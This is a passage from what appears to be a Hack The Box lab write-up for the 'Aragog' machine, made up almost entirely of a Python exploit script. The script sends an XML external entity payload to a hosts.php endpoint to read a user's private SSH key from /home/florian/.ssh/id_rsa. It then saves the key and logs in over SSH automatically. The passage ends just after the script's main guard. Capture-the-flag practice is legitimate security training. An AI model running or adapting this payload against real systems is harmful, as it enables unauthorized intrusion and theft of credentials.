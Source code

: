 Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:19:59.png)

auto_florian
```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto XEE in Aragog to retrieve the ssh key from florian user and auto connect

import argparse
import requests
import sys
import os

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

#Function to XEE the Florian ssh key
def getXEEKey(rhost):
    url = "http://%s:80/hosts.php" %rhost
    data = '''<?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data (ANY)>
    <!ENTITY file SYSTEM "file:///home/florian/.ssh/id_rsa">
    ]>

    <details>
        <subnet_mask>&file;</subnet_mask>
        <test></test>
    </details> '''
    florian_key = r.post(url, data=data, proxies=proxies)
    print("[+] Let's get the florian ssh key !!! [+]")
    index = florian_key.text.find("for")
    global key
    key = florian_key.text[index:index+1683].removeprefix('for ').strip()

#Function to connect ssh on the box
def connectSSH(rhost,key):
    print("[+] Done! Now Let's connect!!!! [+]")
    ssh_key = '/tmp/rsa_key'
    f = open(ssh_key, 'w'); f.write(key); f.close()
    os.system('chmod 400 /tmp/rsa_key')
    os.system('sleep 1')
    os.system('ssh -i /tmp/rsa_key florian@%s' %rhost)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target

    '''Here we call the functions'''
    # Let's get the ssh key
    getXEEKey(rhost)
    # Let's connect
    connectSSH(rhost,key)

if __name__ == '__main__':
```